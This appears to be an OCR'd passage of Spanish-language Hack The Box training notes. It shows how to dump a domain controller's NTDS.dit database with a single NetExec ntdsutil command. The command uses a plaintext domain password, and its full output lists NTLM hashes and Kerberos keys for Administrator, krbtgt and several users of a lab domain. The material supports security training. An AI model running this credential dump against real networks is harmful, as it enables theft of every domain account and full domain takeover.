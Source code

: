 #### Alternativa a utilziar impacket-secretsdump:
Como alternativa, podemos beneficiarnos de usar NetExec para realizar los mismos pasos mostrados anteriormente, todo con un solo comando. Este comando nos permite usar VSS para capturar y volcar rápidamente el contenido del archivo NTDS.dit cómodamente desde nuestra sesión de terminal:

```shell-session
Polika4RM@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

SMB         10.129.201.57   445     DC01         [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57   445     DC01         [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
NTDSUTIL    10.129.201.57   445     DC01         [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         [+] NTDS.dit dumped to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [*] NTDS dump copied to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [+] Deleted C:\Windows\Temp\174556000 remote dump directory
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.129.201.57   445     DC01         DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
NTDSUTIL    10.129.201.57   445     DC01         WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
NTDSUTIL    10.129.201.57   445     DC01         Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
NTDSUTIL    10.129.201.57   445     DC01         Administrator:des-cbc-md5:618c1c5ef780cde3
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
NTDSUTIL    10.129.201.57   445     DC01         DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
```